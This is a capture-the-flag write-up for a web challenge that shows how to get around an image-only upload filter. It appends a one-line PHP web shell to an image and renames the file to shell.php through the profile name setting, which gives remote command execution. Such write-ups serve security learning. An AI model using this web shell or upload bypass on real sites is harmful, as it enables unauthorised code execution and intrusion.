






# GnomeArena: Rock Paper Scissors (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))



This challenge is a rock paper scissor challenge.



The game did not seem exploitable. But at the right corner we see a settings page.



At the settings page we can upload a new profile picture. We can also set a new name for our account.



Here is our goal:
* Upload a file containing PHP code
* Find the directory where the files are stored.
* Figure out a way to run the uploaded file as PHP code.

Questions I always ask myself when dealing with these kind of challenges:
* What kind of file extensions does the server allow?
* Can I find the uploaded file?
* Can I spoof the MIME header?
* etc ...

TL;DR answer to these questions.

    I can only upload image files.
    All other files seem to be blocked.
    I can control the name + extension of the uploaded file with the rename "name" functionality.


### Exploiting the file upload

* Create a small image. I used a 1x1 black pixel as image.
* Append PHP backdoor shell at the end of the image. I used VIM for this.
    ```
    <?php system($_GET['cmd']); ?>  
    ```
* Upload image to website as any filename.
* Rename `name` to shell.php
* Right click image and `Copy Image Source`
* Visit that address and we should have shell.

    

    And now get the flag with `cat` command.

    
